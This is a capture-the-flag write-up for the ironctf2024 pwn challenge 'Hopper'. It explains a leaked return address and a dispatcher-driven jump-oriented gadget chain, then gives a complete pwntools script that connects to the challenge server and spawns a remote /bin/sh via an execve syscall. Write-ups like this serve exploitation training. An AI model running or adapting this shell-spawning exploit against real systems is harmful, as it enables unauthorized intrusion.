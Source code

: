 # Hopper
## Description
Hippety-hop... Hippety-hop your way to victory!

Ctf: ironctf2024 https://ctf.1nf1n1ty.team/challenges#Hopper-15

Author: Vigneswar

Category: pwn

`nc pwn.1nf1n1ty.team 31886`

## Writeup
### Overview
In this challenge we are given only binary without source code so we need to make use of IDA free to see what this binary does.
But first we check what is this file using `file`  program
![](attachments/Pasted%20image%2020241006121743.png)
we also `checksec` to find out what security features does this binary have
![](attachments/Pasted%20image%2020241006121915.png)
from this we could say that this is nearly perfect binary for pwning, but life is not all roses and we cannot execute code from the stack.
Lets take look at what is inside, shall we?

![](attachments/Pasted%20image%2020241006122327.png)

there is not even main function in this programme so we take a look at `start` .
What it does is:
- print a bunny ascii image
- print retaddr (very important for us)
- print "hop hop" as ascii image
- takes our input to a stack
- jumps to an address that that is at the top of our input
Why is this retaddr important for us?
Thanks to it we can find out where is stack located, and we can reference addresses according to this leaked address.
Luckily for us we are provided some gadgets that can help us exploit this challenge.

![](attachments/Pasted%20image%2020241006123411.png)
![](attachments/Pasted%20image%2020241006123425.png)![](attachments/Pasted%20image%2020241006123440.png)![](attachments/Pasted%20image%2020241006123711.png)
### Plan for an exploit
Since we cannot execute the code from the stack we need to use provided gadgets to execute `syscall` of `execve`. What this means is we have to set some registers according to requirements
[x64.syscall.sh](https://x64.syscall.sh/)

![](attachments/Pasted%20image%2020241006123857.png)
- `RAX` has to be `0x3B`
- `RDI` has to be pointer to the beginning of `/bin/sh` string
- `RSI` has to be `0`
- `RDX` has to be `0`
and we need to execute `syscall` after that

How do we control the flow of the programme using those gadgets? 
If we put address of dispatcher in `r15` (address that is jumped to at the end of most of the gadgets) we can use it to jump to some gadget like

![](attachments/Pasted%20image%2020241006124910.png)

and then jump back to `r15` - dispatcher 
what dispatcher does is it increases value in `rbx` by `8`  and jumps to address that is pointed by address in this register. So we can essentially use it to walk the gadgets of which we put addresses on the stack.
### Actual exploit
In order to do that we can put an address of gadgets at the top:
- address of `gadgets` gets popped of to `rsi`
- address of `/bin/sh\x00` gets popped of to `rdi`
- address of we leaked earlier gets popped of to `rbx` (this is the address that will be used by dispatcher)
- value of `0x3B` gets popped of to `r13`
- address of `dispacher` gets popped to `r15`
- we jump to `disparcher` 
- `dispacher` jumps to itself
- `dispatcher` jumps to gadgets that clears `rsi`
- `dispatcher` jumps to `xchg rax, r13` to set rax to be `0x3b`
- from there we jump to address that is at `rsp`
- from `dispatcher` we once again clear `rsi`
- from `dispatcher` we once again clear `rdx`
- finally we jump to `syscall`
Code:
```python
from pwn import remote, p64, u64

conn = remote("pwn.1nf1n1ty.team", 31886)

msg = conn.recvuntil(b'>>')
addr = msg[379: 379 + 8]

addr_int = u64(addr)
bin_sh_addr = addr_int + 8 * 6

gadget_chain = 0x401017
dispatcher_addr = 0x401011
xor_rsi = 0x401027
xchg_rax_r13 = 0x40100c
xor_rdx = 0x401021
syscall = 0x40100a

payload = p64(gadget_chain)
payload += p64(bin_sh_addr)         # rdi
payload += p64(addr_int)            # rbx
payload += p64(0x3b)                # r13 (later rax)
payload += p64(dispatcher_addr)     # r15 dispatcher
payload += p64(xor_rsi)             # clear rsi
payload += p64(xchg_rax_r13)        # swap rax and r13
payload += p64(xor_rdx)             # clear rdx
payload += p64(syscall)             # syscall
payload += b'/bin/sh\x00'

conn.sendline(payload)
conn.interactive()
```
### Pro tip
if you don't include null byte at the end of `/bin/sh` you might find yourself debugging for few additional hours